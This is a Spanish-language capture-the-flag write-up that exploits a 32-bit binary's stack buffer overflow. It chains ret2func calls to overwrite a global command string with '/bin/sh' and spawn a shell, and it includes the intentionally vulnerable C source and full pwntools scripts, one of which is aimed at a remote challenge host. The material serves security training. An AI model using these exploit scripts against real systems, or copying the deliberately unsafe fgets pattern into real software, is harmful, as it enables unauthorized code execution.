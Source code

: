 # Reto C2_Server_Pwn

## Código fuente

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char command[32];

void setup() {
  setvbuf(stdin,NULL,2,0);
  setvbuf(stdout,NULL,2,0);
  setvbuf(stderr,NULL,2,0);
}

void updateCommand(int idx, char c) {
  command[idx] = c;
}

void execCommand() {
  system(command);
}

void vuln() {
  char buffer[256];
  puts("Recibiendo datos...");

  fgets(buffer, 512, stdin);
}

int main() {
  setup();
  char* defaultCommand = "echo Datos exfiltrados\x00";

  for (int i = 0; i <= strlen(defaultCommand); i++) {
    updateCommand(i, defaultCommand[i]);
  }

  puts("Servicio de exfiltracion Ocelot v0.1");

  vuln();
  execCommand();
}
```

## Writeup
Comenzamos lanzando checksec para ver información del binario.

```
$ pwn checksec chal
[*] '/home/donas/Documentos/hackdef/pwn/archivos/chal'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Observamos que el binario está compilado en 32 bits y no tiene canary ni PIE habilitados. Para ejecutarlo debemos asegurarnos de que tenemos soporte para 32 bits. (Para sistemas de 64 bits, instalar gcc-multilib).

Lo primero que podemos observar es que el programa ejecuta la función system() utilizando como argumento una variable global `command` y que existe una función `updateCommand` que escribe un caracter `c` en la posición `idx` del comando.

Lo segundo que observamos es que la función vuln tiene un buffer overflow.

```c
void vuln() {
  char buffer[256];
  puts("Recibiendo datos...");

  fgets(buffer, 512, stdin);
}
```

El buffer tiene un tamaño de 256 y se están leyendo 512 bytes, por lo que el overflow es de 256 bytes.

Debido a que el binario no tiene canary, podemos explotar el buffer overflow directamente.

Con esta información podemos empezar a armar el exploit. Nuestro objetivo es cambiar el contenido de `command` para que ejecute un comando de nuestra elección, como `/bin/sh`.

Comenzamos con un script simple para explotar el buffer overflow.

```python
from pwn import *

vuln = ELF("./chal")

p = process("./chal")

payload = b"A" * 0x10c
payload += p32(vuln.symbols["execCommand"])
p.sendlineafter(b"...", payload)

p.interactive()
```

Sobreescribimos el return address de vuln para que ejecute `execCommand`.

```python
python3 solve.py
[*] '/home/donas/Documentos/hackdef/pwn/archivos/chal'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './chal': pid 53832
[*] Switching to interactive mode

Datos exfiltrados
```

Observamos que funciona correctamente.

Ahora, para cambiar el comando, debemos usar el buffer overflow para ejecutar la función `updateCommand`. Veamos el código de esta función.

```c
void updateCommand(int idx, char c) {
  command[idx] = c;
}
```

Esta función recibe 2 argumentos, por lo que tenemos que ver cómo pasarle argumentos de nuestra elección con el buffer overflow.

Recordemos que el binario fue compilado en 32 bits, por lo que las funciones reciben argumentos a través del [stack](https://aaronbloomfield.github.io/pdr/book/x86-32bit-ccc-chapter.pdf).

Modificamos el script para ejecutar `updateCommand(5, 'Z')` y `execCommand`. De esta forma, cambiaremos el comando de `echo Datos exfiltrados` a `echo Zatos exfiltrados`.

```python
from pwn import *

vuln = ELF("./chal")

p = process("./chal")

payload = b"A" * 0x10c
payload += p32(vuln.symbols["updateCommand"]) # return address de vuln
payload += p32(vuln.symbols["execCommand"])   # return address de updateCommand
payload += p32(5)                             # arg1
payload += p32(ord('Z'))                      # arg2
p.sendlineafter(b"...", payload)

p.interactive()
```

En este script el flujo es:
- main()
- vuln()
- updateCommand(5, 'Z')
- execCommand()

```
$ python3 solve.py
[*] '/home/donas/Documentos/hackdef/pwn/archivos/chal'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './chal': pid 54276
[*] Switching to interactive mode

Zatos exfiltrados
```

Observamos que el comando se editó correctamente, y el programa nos muestra el mensaje `Zatos exfiltrados`.

Pero este script solo nos deja cambiar un solo caracter, por lo que debemos explotar el buffer overflow varias veces para cambiar más letras del comando. Para hacerlo, debemos hacer que al terminar `updateCommand`, se ejecute `vuln` para tener otra oportunidad de explotar el buffer overflow.

El flujo final sería:

- main()
- vuln()
- updateCommand(0, '/')
- vuln()
- updateCommand(1, 'b')
- vuln()
- updateCommand(2, 'i')
- ....
- vuln()
- execCommand()

```python
from pwn import *

vuln = ELF("./chal")

# p = process("./chal")
p = remote("35.95.31.64", 3000)

for i, c in enumerate(b"/bin/sh;"):
    payload = b"A" * 0x10c
    payload += p32(vuln.symbols["updateCommand"])
    payload += p32(vuln.symbols["vuln"])
    payload += p32(i)
    payload += p32(c)

    p.sendlineafter(b"...", payload)

payload = b"A" * 0x10c
payload += p32(vuln.symbols["execCommand"])
p.sendlineafter(b"...", payload)

p.interactive()
```

```
$ python3 win.py
[*] '/home/donas/Documentos/hackdef/pwn/archivos/chal'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './chal': pid 54437
[*] Switching to interactive mode

$ echo pwned
pwned
```
